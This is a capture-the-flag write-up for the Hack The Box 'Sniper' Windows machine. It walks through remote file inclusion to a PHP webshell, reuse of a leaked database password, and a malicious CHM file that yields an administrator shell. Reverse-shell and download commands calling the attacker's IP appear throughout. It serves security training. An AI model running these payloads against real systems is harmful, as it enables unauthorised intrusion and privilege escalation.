







---
search:
  exclude: true
---
# Sniper Writeup

## Introduction :

Sniper is a medium Windows box released back in October 2019.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/19 ] [~/HTB/sniper]
    → nmap -vvv -p- 10.10.10.151 --max-retries 0 -Pn --min-rate=500 2>/dev/null | grep Discovered
    Discovered open port 80/tcp on 10.10.10.151
    Discovered open port 139/tcp on 10.10.10.151
    Discovered open port 445/tcp on 10.10.10.151
    Discovered open port 135/tcp on 10.10.10.151
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/19 ] [~/HTB/sniper]
    → nmap -sCV -p80,135,139,445 10.10.10.151
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-21 09:48 CEST
    Nmap scan report for 10.10.10.151
    Host is up (0.47s latency).
    
    PORT    STATE SERVICE       VERSION
    80/tcp  open  http          Microsoft IIS httpd 10.0
    | http-methods:
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/10.0
    |_http-title: Sniper Co.
    135/tcp open  msrpc         Microsoft Windows RPC
    139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
    445/tcp open  microsoft-ds?
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Host script results:
    |_clock-skew: 7h08m01s
    | smb2-security-mode:
    |   2.02:
    |_    Message signing enabled but not required
    | smb2-time:
    |   date: 2021-06-21T14:56:56
    |_  start_date: N/A
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 76.69 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 so let's investigate it:

 

We create an account and try to log into it:

 

However we see that the website seems to be a work in progress. So instead we take a look at the blog:

 

Now here we see that there is a **lang** parameter. Let's see if this is vulnerable to Remote File Inclusion (RFI):
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/4 ] [~/HTB/sniper]
    → mkdir nihilist
    
    [ 10.10.14.11/23 ] [ /dev/pts/19 ] [~/HTB/sniper]
    → wget https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/master/webshell.php -O nihilist/webshell.php
    --2021-06-21 11:12:59--  https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/master/webshell.php
    Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.111.133, 185.199.108.133, ...
    Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 7205 (7.0K) [text/plain]
    Saving to: ‘nihilist/webshell.php’
    
    nihilist/webshell.php                                               100%[======================================================================================================================================================>]   7.04K  --.-KB/s    in 0.003s
    
    2021-06-21 11:13:01 (2.74 MB/s) - ‘nihilist/webshell.php’ saved [7205/7205]
    
    nihilist/webshell.php                                               100%[======================================================================================================================================================>]  25.74K  --.-KB/s    in 0.07s
    
    2021-06-21 09:57:56 (356 KB/s) - ‘nihilist/webshell.php’ saved [26361/26361]
    
    [ 10.10.14.11/23 ] [ /dev/pts/25 ] [~/HTB/sniper]
    → echo '"RFI Successful !" -echo' > nihilist/rfi.html
    
    [ 10.10.14.11/23 ] [ /dev/pts/25 ] [~/HTB/sniper]
    → tree
    .
    └── nihilist
        ├── rfi.html
        └── webshell.php
    
    1 directory, 2 files
    
    [ 10.10.14.11/23 ] [ /dev/pts/4 ] [~/HTB/sniper]
    → impacket-smbserver -smb2support nihilist nihilist
    Impacket v0.9.23.dev1+20210519.170900.2f5c2476 - Copyright 2020 SecureAuth Corporation
    
    [*] Config file parsed
    [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
    [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
    [*] Config file parsed
    [*] Config file parsed
    [*] Config file parsed
    
    

Now let's try to browse to our php webshell:
    
    
    http://10.10.10.151/blog/?lang=\\10.10.14.11\nihilist\webshell.php
    
    

Now when we browse to it we see that the page can't be loaded for some reason, however we do get the box connecting back to us:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/4 ] [~/HTB/sniper]
    → impacket-smbserver -smb2support nihilist nihilist
    Impacket v0.9.23.dev1+20210519.170900.2f5c2476 - Copyright 2020 SecureAuth Corporation
    
    [*] Config file parsed
    [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
    [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
    [*] Config file parsed
    [*] Config file parsed
    [*] Config file parsed
    [*] Incoming connection (10.10.10.151,49680)
    [*] AUTHENTICATE_MESSAGE (\,SNIPER)
    [*] User SNIPER\ authenticated successfully
    [*] :::00::aaaaaaaaaaaaaaaa
    [*] Closing down connection (10.10.10.151,49680)
    [*] Remaining connections []
    [*] Incoming connection (10.10.10.151,49681)
    [*] AUTHENTICATE_MESSAGE (\,SNIPER)
    [*] User SNIPER\ authenticated successfully
    [*] :::00::aaaaaaaaaaaaaaaa
    [*] Closing down connection (10.10.10.151,49681)
    [*] Remaining connections []
    [*] Incoming connection (10.10.10.151,49682)
    [*] AUTHENTICATE_MESSAGE (\,SNIPER)
    [*] User SNIPER\ authenticated successfully
    [*] :::00::aaaaaaaaaaaaaaaa
    
    

The reason for this, is that impacket-smbserver isn't the most well written tool, so instead we're going to use smbd:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/28 ] [~]
    → vim /etc/samba/smb.conf
    
    [...]
    
    [nihilist]
       comment = nihilist's profile
       path = /srv/smb/
       writable = no
       guest ok = yes
       guest only = yes
       read only = yes
       browseable = no
       create mask = 0600
       directory mask = 0700
    
    
    :wq 
    
    [ 10.10.14.11/23 ] [ /dev/pts/25 ] [~/HTB/sniper]
    → systemctl start smbd
    ==== AUTHENTICATING FOR org.freedesktop.systemd1.manage-units ===
    Authentication is required to start 'smbd.service'.
    Authenticating as: nothing,,, (nothing)
    Password:
    ==== AUTHENTICATION COMPLETE ===
    
    [ 10.10.14.11/23 ] [ /dev/pts/25 ] [~/HTB/sniper]
    → systemctl status smbd
    ● smbd.service - Samba SMB Daemon
         Loaded: loaded (/lib/systemd/system/smbd.service; disabled; vendor preset: disabled)
         Active: active (running) since Mon 2021-06-21 11:28:32 CEST; 3s ago
           Docs: man:smbd(8)
                 man:samba(7)
                 man:smb.conf(5)
        Process: 2386294 ExecStartPre=/usr/share/samba/update-apparmor-samba-profile (code=exited, status=0/SUCCESS)
       Main PID: 2386303 (smbd)
         Status: "smbd: ready to serve connections..."
          Tasks: 4 (limit: 38376)
         Memory: 14.6M
            CPU: 126ms
         CGroup: /system.slice/smbd.service
                 ├─2386303 /usr/sbin/smbd --foreground --no-process-group
                 ├─2386306 /usr/sbin/smbd --foreground --no-process-group
                 ├─2386307 /usr/sbin/smbd --foreground --no-process-group
                 └─2386349 /usr/sbin/smbd --foreground --no-process-group
    

we move the webshell in the new path:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/25 ] [~/HTB/sniper]
    → sudo mkdir /srv/smb/
    
    [ 10.10.14.11/23 ] [ /dev/pts/25 ] [~/HTB/sniper]
    → sudo mv nihilist/webshell.php /srv/smb/webshell.php
    
    

And we browse to it:

Now that we have successfully got our RFI, and command execution as **iusr** , we can start poking around the server more:

 

Now here we're going to upload the netcat binary to get a reverse shell:

    
    
    [ 10.10.14.11/23 ] [ /dev/pts/25 ] [~/HTB/sniper]
    → nc -lvnp 9001
    listening on [any] 9001 ...
    
    

` 

And here we get the reverse shell connection:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/25 ] [~/HTB/sniper]
    → nc -lvnp 9001
    listening on [any] 9001 ...
    connect to [10.10.14.11] from (UNKNOWN) [10.10.10.151] 49739
    Microsoft Windows [Version 10.0.17763.678]
    (c) 2018 Microsoft Corporation. All rights reserved.
    
    C:\temp>whoami
    whoami
    nt authority\iusr
    
    

And here we get a reverse shell as the iusr user, let's see if we have access to the user flag:
    
    
    
    C:\temp>cd ..
    cd ..
    
    C:\>cd Users
    cd Users
    
    C:\Users>dir
    dir
     Volume in drive C has no label.
     Volume Serial Number is 6A2B-2640
    
     Directory of C:\Users
    
    04/11/2019  07:04 AM    DIR>          .
    04/11/2019  07:04 AM    DIR>          ..
    04/09/2019  06:47 AM    DIR>          Administrator
    04/11/2019  07:04 AM    DIR>          Chris
    04/09/2019  06:47 AM    DIR>          Public
                   0 File(s)              0 bytes
                   5 Dir(s)  17,987,223,552 bytes free
    
    C:\Users>cd Chris
    cd Chris
    Access is denied.
    
    

Looks like we don't, so we will probably need to privesc to the Chris user.
    
    
    C:\Users>powershell
    powershell
    Windows PowerShell
    Copyright (C) Microsoft Corporation. All rights reserved.
    
    PS C:\Users> ls
    ls
    
    
        Directory: C:\Users
    
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----         4/9/2019   6:47 AM                Administrator
    d-----        4/11/2019   7:04 AM                Chris
    d-r---         4/9/2019   6:47 AM                Public
    
    

Now before we move on, we need to take a look at the **db.php** file:
    
    
    PS C:\Users> type C:\inetpub\wwwroot\user\db.php
    type C:\inetpub\wwwroot\user\db.php
    <****?php
    // Enter your Host, username, password, database below.
    // I left password empty because i do not set password on localhost.
    $con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
    // Check connection
    if (mysqli_connect_errno())
      {
      echo "Failed to connect to MySQL: " . mysqli_connect_error();
      }
    ?****>

Since Powershell is on the box and we have a potential password for the user Chris, let's see if we acn use the **Invoke-Command** utility to execute comamnds as the chris user:
    
    
    PS C:\Users> $password = "36mEAhz/B8xQ~2VM" | ConvertTo-SecureString -asPlainText -Force
    PS C:\Users> $username = "nt authority\Chris"
    
    PS C:\Users> $credential = New-Object System.Management.Automation.PSCredential($username,$password)
    PS C:\Users> echo $credential
    
    UserName                               Password
    --------                               --------
    nt authority\Chris System.Security.SecureString
    
    

Now that we have created the credential variable, we can try the Invoke-Command as chris:
    
    
    PS C:\Users> Invoke-Command -ComputerName sniper -Credential $credential -ScriptBlock {whoami}
    Invoke-Command -ComputerName sniper -Credential $credential -ScriptBlock {whoami}
    sniper\chris
    
    

And we managed to get code execution as the chris user! So now let's spawn another reverse shell as chris this time:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/21 ] [~/HTB/sniper]
    → cp /home/nothing/HTB/json/nc64.exe .
    
    [ 10.10.14.11/23 ] [ /dev/pts/21 ] [~/HTB/sniper]
    → python3 -m http.server 8080
    Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
    
    

Now we get nc64.exe onto the box using the chris user:
    
    
    PS C:\temp>  Invoke-Command -ComputerName sniper -Credential $credential -ScriptBlock {mkdir C:\temp4chris}
    
        Directory: C:\
    
    
    Mode                LastWriteTime         Length Name                                PSComputerName
    ----                -------------         ------ ----                                --------------
    d-----        6/21/2021  10:56 AM                temp4chris                          sniper
    
    PS C:\temp> Invoke-Command -ComputerName sniper -Credential $credential -ScriptBlock {iwr -uri http://10.10.14.11:8080/nc64.exe -o c:\temp4chris\nc64.exe}
    
    PS C:\temp> Invoke-Command -ComputerName sniper -Credential $credential -ScriptBlock {c:\temp4chris\nc64.exe 10.10.14.11 9002 -e cmd.exe}
    
    

Now we catch the incoming reverse shell connection as the chris user on our port 9002:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/4 ] [~/HTB/sniper]
    → nc -lvnp 9002
    listening on [any] 9002 ...
    connect to [10.10.14.11] from (UNKNOWN) [10.10.10.151] 49770
    Microsoft Windows [Version 10.0.17763.678]
    (c) 2018 Microsoft Corporation. All rights reserved.
    
    C:\Users\Chris\Documents>whoami
    whoami
    sniper\chris
    
    C:\Users\Chris\Documents>cd ..
    cd ..
    
    C:\Users\Chris>cd Desktop
    cd Desktop
    
    C:\Users\Chris\Desktop>type user.txt
    type user.txt
    21XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it! We managed to get the user flag.

## **Part 3 : Getting Root Access**

Now in order to gain root access to the box we look for clues on the box, such as in the **C:\Docs** directory:
    
    
    C:\Users\Chris>cd C:\Docs
    cd C:\Docs
    
    C:\Docs>dir
    dir
     Volume in drive C has no label.
     Volume Serial Number is 6A2B-2640
    
     Directory of C:\Docs
    
    10/01/2019  01:04 PM    DIR>          .
    10/01/2019  01:04 PM    DIR>          ..
    04/11/2019  09:31 AM               285 note.txt
    04/11/2019  09:17 AM           552,607 php for dummies-trial.pdf
                   2 File(s)        552,892 bytes
                   2 Dir(s)  17,984,839,680 bytes free
    
    C:\Docs>type note.txt
    type note.txt
    Hi Chris,
            Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.
    
    Regards,
    Sniper CEO.
    

So here we know that the CEO wants Chris to drop a documentation file in **C:\Docs**. And we get another hint at what type of file the CEO wants when we look at Chris's downloads folder:
    
    
    PS C:\Users\chris\downloads> dir
    dir
    
    
        Directory: C:\Users\chris\downloads
    
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----        4/11/2019   8:36 AM          10462 instructions.chm
    
    
    

This is a hint that we need to create a malicious **.chm** file (Microsoft Compiled HTML Help file) in **C:\Docs**. We can use Nishang's Out-CHM powershell script for that:
    
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/21 ] [~/HTB/sniper]
    → locate Out-CHM.ps1
    /usr/share/nishang/Client/Out-CHM.ps1
    
    [ 10.10.14.11/23 ] [ /dev/pts/21 ] [~/HTB/sniper]
    → cp /usr/share/nishang/Client/Out-CHM.ps1 .
    
    [ 10.10.14.11/23 ] [ /dev/pts/21 ] [~/HTB/sniper]
    → python3 -m http.server 8080
    Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
    
    

Let's download it onto the box:
    
    
    PS C:\Users\chris\downloads> powershell.exe -ExecutionPolicy Bypass
    PS C:\Users\chris\downloads> iwr -uri http://10.10.14.11:8080/Out-CHM.ps1 -o chm.ps1
    iwr -uri http://10.10.14.11:8080/Out-CHM.ps1 -o chm.ps1
    PS C:\Users\chris\downloads> dir
    dir
    
    
        Directory: C:\Users\chris\downloads
    
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----        6/21/2021  11:15 AM          19500 chm.ps1
    -a----        4/11/2019   8:36 AM          10462 instructions.chm
    
    

Now for whatever reason we can't use that ps1 file ON the box so instead we're going to use it on a windows VM:
    
    
    PS C:\Users\Administrator\Desktop> iwr -uri http://10.0.0.10:8080/Out-CHM.ps1 -o chm.ps1
    PS C:\Users\Administrator\Desktop> import-module .\chm.ps1
    
    
    
    Out-CHM -Payload "cd C:/temp4chris/nc64.exe 10.10.14.11 9003 -e cmd.exe" 
    

Now apparently you can't compile this without having Microsoft Compiled HTML Help on your own system, which WS2019 cannot have, so instead we're going to get it on Windows 10
    
    
    PS C:\Users\nothing\Desktop\Temp>  iwr -uri http://10.0.0.10:8080/Out-CHM.ps1 -o chm.ps1
    PS C:\Users\nothing\Desktop\Temp> import-module .\chm.ps1
    
    

Make sure you untick everything about malware protection in windows because it will get flagged otherwise. Next step is to install htmlhelp on our local machine:

 

Once it's done installing, we compile the malicious .chm file:
    
    
    PS C:\Users\nothing\Desktop\Temp> Out-CHM  -Payload "powershell c:\temp4chris\nc64.exe 10.10.14.11 9003 -e powershell" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
    Microsoft HTML Help Compiler 4.74.8702
    
    Compiling c:\Users\nothing\Desktop\Temp\doc.chm
    
    
    Compile time: 0 minutes, 0 seconds
    2       Topics
    4       Local links
    4       Internet links
    0       Graphics
    
    
    Created c:\Users\nothing\Desktop\Temp\doc.chm, 13,454 bytes
    Compression increased file by 266 bytes.
    PS C:\Users\nothing\Desktop\Temp> dir
    
    
        Directory: C:\Users\nothing\Desktop\Temp
    
    
    Mode                 LastWriteTime         Length Name
    ----                 -------------         ------ ----
    -a----         6/21/2021   1:45 PM          13454 doc.chm
    -a----         6/21/2021   1:39 PM        3507384 htmlhelp.exe
    
    
    

Now we move that doc.chm file into our smb share:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/27 ] [~/HTB/sniper]
    → cd /srv/smb
    
    [ 10.10.14.11/23 ] [ /dev/pts/27 ] [/srv/smb]
    → sudo !!
    
    [ 10.10.14.11/23 ] [ /dev/pts/27 ] [/srv/smb]
    → sudo wget https://lainsafe.duckdns.org/files/162427600178629.chm -O doc.chm
    [sudo] password for nothing:
    --2021-06-21 13:47:11--  https://lainsafe.duckdns.org/files/162427600178629.chm
    Resolving lainsafe.duckdns.org (lainsafe.duckdns.org)... 159.203.11.15
    Connecting to lainsafe.duckdns.org (lainsafe.duckdns.org)|159.203.11.15|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 13454 (13K) [application/octet-stream]
    Saving to: ‘doc.chm’
    
    doc.chm                         100%[======================================================>]  13.14K  --.-KB/s    in 0s
    
    2021-06-21 13:47:13 (312 MB/s) - ‘doc.chm’ saved [13454/13454]
    
    [ 10.10.14.11/23 ] [ /dev/pts/27 ] [/srv/smb]
    → ls -lash
    total 76K
    4.0K drwxr-xr-x 2 root    root    4.0K Jun 21 13:47 .
    4.0K drwxr-xr-x 4 root    root    4.0K Jun 21 11:33 ..
     16K -rw-r--r-- 1 root    root     14K Jun 21 13:46 doc.chm
     44K -rw-r--r-- 1 root    root     43K Jun 21 12:40 nc64.exe
    8.0K -rw-r--r-- 1 nothing nothing 7.1K Jun 21 11:13 webshell.php
    
    
    

Now from here we basically copy the **doc.chm** file into **C:\Docs**
    
    
    PS C:\Users\chris\downloads> cd C:\Docs
    cd C:\Docs
    PS C:\Docs> cp \\10.10.14.11\nihilist\doc.chm
    cp \\10.10.14.11\nihilist\doc.chm
    

And shortly after we recieve the reverse shell connection because our doc.chm file payload got executed:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/27 ] [/srv/smb]
    → nc -lvnp 9003
    listening on [any] 9003 ...
    connect to [10.10.14.11] from (UNKNOWN) [10.10.10.151] 49778
    Windows PowerShell
    Copyright (C) Microsoft Corporation. All rights reserved.
    
    PS C:\Windows\system32> whoami
    whoami
    sniper\administrator
    PS C:\Windows\system32> cd C:\Users\Administrator\Desktop
    cd C:\Users\Administrator\Desktop
    PS C:\Users\Administrator\Desktop> type root.txt
    type root.txt
    56XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it! We managed to get the root flag after recieving the administrator reverse shell connection.

## **Conclusion**

Here we can see the progress graph :

